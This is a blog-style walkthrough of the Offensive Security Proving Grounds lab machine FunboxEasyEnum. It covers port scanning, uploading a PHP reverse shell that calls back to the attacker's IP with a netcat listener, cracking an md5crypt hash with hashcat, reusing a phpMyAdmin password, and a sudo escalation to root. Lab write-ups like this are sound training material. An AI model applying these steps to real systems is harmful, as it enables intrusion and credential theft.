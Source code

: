 ```yaml
---
title: FunboxEasyEnum Writeup
author: mooncakeza
date: 2021-06-01 08:30am
categories: [writeup, offsec, proving grounds]
tags: [writeup, offsec, proving grounds]
math: true
mermaind: true
image: /assets/img/pg/provinggrounds.png
---
```


This is my first Offensive Security writeup of a machine on their Proving Grounds platform. 
<br>
I signed up for the free labs and managed to do 2 easy machines and get this writeup done before the daily 3 hour timer expired.

## Enumeration

Starting with Rustscan with NMAP. I have cleaned up the output to just show the relevant info.

```bash
└─$ rustscan -a 192.168.245.132 -u 5000 -- -A -sC -sV                                 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/mooncake/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.245.132:22
Open 192.168.245.132:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 07:41 SAST
Scanned at 2021-05-31 07:41:48 SAST for 15s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3a6aFbaxLEn4AMDXmMVZdNfaQuJQ/AcPHffagHb77o1FmSe+6tlCRHMil9l4qJILffRQHkdbQJtrlBk52V35SHfPp8x89B+Pfv7slkKxXE7fkZBIJuUjHF+YAoSakOtY72d7o6Bet2AwCijSBzZ1bkVC4i/L9euG2Oul5oA2iFlnzwYjrhki6MFNFJvvyoOqcJr1zS+w4W0NO1RexielQsxeUG3khrfVYts5kWFQPr39tk52zRZ/gpAKjR00XN4N5mi/mBjvvgnlVX4DNeyxh5r+E5sdLGzJ0Vk8JzjDW7eK70kv2KmVCFSJNceUjfaIV+K4z9wFoy6qZte7MxhaV
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJi5En616tTVEM4UoE0AVaXFn6+Rhike29q/pKZh5nIPQfNr9jqz2II9iZ5NZCPwsjp3QrsmTdzGwqUbjMe0c=
|   256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO+CVl8CiYP8L+ni0CvmpS7ywOiJU62E3O6L8G2n/Yov
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.17 seconds
```

With only ports 22 and 80 open we fire up Feroxbuster and find the following:

![Desktop View](/assets/img/pg/funboxeasyenum/Feroxbuster mini php.png){: .shadow}

We found http://192.168.145.132/mini.php
<br>
Browsing to it and I see you can upload files.

![Desktop View](/assets/img/pg/funboxeasyenum/Mini Shell PHP.png){: .shadow}

## Foothold

We grab the php-reverse-shell.php on our Kali machine and rename it to shell.php

```bash
-$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

We change the following in the file to match our VPN ip as well as the port we are going to use to listen on for a reverse shell.

```bash
$ip = '192.168.49.245';  // CHANGE THIS
$port = 9998;       // CHANGE THIS
```

In another terminal we start a netcat listener.

```bash
$ nc -lvnp 9998
listening on [any] 9998 ...
```
We then browse back to http://192.168.245.132/mini.php and upload the shell.php

![Desktop View](/assets/img/pg/funboxeasyenum/Shell upload.png){: .shadow}

Once uploaded, it showed up in the list.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell filed uploaded.png){: .shadow}

We now have to change the permissions to execute otherwise the webserver will not be able to execute the php file to run our reverse shell. We changed the permissions to 0777. Drastic I know.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell file permissions.png){: .shadow}

![Desktop View](/assets/img/pg/funboxeasyenum/Shell file permissions change.png){: .shadow}

Once done, browse to http://192.168.245.132/shell.php
<br>
We then received the shell in our netcat listener window.

![Desktop View](/assets/img/pg/funboxeasyenum/Reverse Shell.png){: .shadow}

## local flag

We first have to get an interactive shell, so we use the python method.

```bash
$ python3 -c  'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ 
```

We browse to the www-data home directory and see the following.


![View-Desktop](/assets/img/pg/funboxeasyenum/First flag.png){: .shadow}

The proof.txt file! Easy win without having to enumerate anywhere else on the machine.

Unfortunately we are only www-data and still need to get to root.

## User Escalation

Let us see what users are on the machine.

![Desktop-View](/assets/img/pg/funboxeasyenum/Passwd file.png)

We find a hash for the oracle user.
<br>
Let's identify the type of hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/Identify Hash.png)

<br>
Let us check [hashcat examples](https://www.google.com/search?client=firefox-b-d&q=hashcat+examples) to verify.
<br>
As we can see it's a md5Crypt hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcat examples.png)

Let's crack it.

```bash
hashcat -m 500 oracle.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcat cracked.png)

Hash cracked.
<br>
We try to ssh as the oracle user but this didn't work but doing a su to the user worked.
<br>
We upload LinPEAS.sh to find anything useful.

![Desktop-View](/assets/img/pg/funboxeasyenum/linpeas upload.png)

LinPEAS didn't give much but we did find the following users and only the user karla was interesting as this user seems to have much more access on the system than the others.

![Desktop-View](/assets/img/pg/funboxeasyenum/Users on box.png)

Further enumeration was needed. I remembered seeing phpMyAdmin from Feroxbuster. I searched for phpMyAdmin config file and found the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/phpmyadmin config.png)

Could this password be reused for karla? One way to try.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla SSH.png)

Success.

## Priviledge Escalation

As we saw the user karla was part of the sudoers group, we immediately check what sudo commands can be run.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla sudo.png)

Seems like karla is allowed to run all commands on the system while using sudo.
<br>
We can simply just get a bash shell by running the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla Privsec.png)

## proof flag

Let's go check the root directory for the loot.

![Desktop-View](/assets/img/pg/funboxeasyenum/Second Flag.png)

